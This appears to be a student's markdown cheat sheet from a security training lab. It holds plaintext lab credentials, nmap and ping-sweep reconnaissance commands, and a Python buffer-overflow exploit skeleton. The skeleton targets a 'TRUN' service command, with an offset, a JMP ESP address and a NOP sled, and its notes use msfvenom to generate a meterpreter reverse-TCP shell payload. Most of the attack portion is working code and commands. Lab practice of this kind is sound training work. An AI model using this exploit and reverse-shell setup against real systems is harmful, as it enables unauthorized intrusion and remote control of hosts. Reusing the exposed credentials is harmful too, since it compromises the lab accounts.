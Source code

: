 # Useful Links

## GTFO BINS
https://gtfobins.github.io/

## Security CTFD Server
https://sec.cybbh.io/public/security/latest/index.html

	CTFD Server: http://10.50.20.250:8000	
	User: NIRI-505-M  
	Pass: gVN5chrkxW0bym1 	

## LinOps:
	ssh -X student@10.50.22.235
	password1

 ## Winops:

	xfreerdp /u:student /p:password /dynamic-resolution +clipboard /v:10.50.29.77

 # Host Discovery 

     nmap -v -sT -Pn -T4 -sV 192.168.28.111,120
## HTTP Enumeration Script:

    nmap -v -sT -Pn -T4 --script=http-enum.nse 192.168.28.111 -p 80

## Ping Sweep: 

     for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" & ); done

     
### secureServerBuffo.py script
	#!/usr/bin/python2.7
	
	import socket
	
	'''
	625011AF
	625011BB
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.X.X lport=4444 -b "\x00" -f python
 	lhost = linux opstation, or whatever host is used to as the attack platform for operation. 
  
    Set multi/handler on msfconsole, & and use script with msfvenom payload 
	'''
	
	
	buf = "TRUN /.:/" #Exploit
	buf += "A" * 2003 #Buffer Offset
	buf += "\xa0\x12\x50\x62"  #JMP ESP
	buf += "\x90" * 15 #NOP SLED
	buf += #SHELLCODE HERE
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # Creates IPv4 socket
	
	s.connect(("0.0.0.0",412XX))    #IP and port to connect to through tunnel
 	print s.recv(1024)   #print response
	s.send(buf)       #sends the variable buf
	print s.recv(1024)   #print response
	s.close()         #close the connection

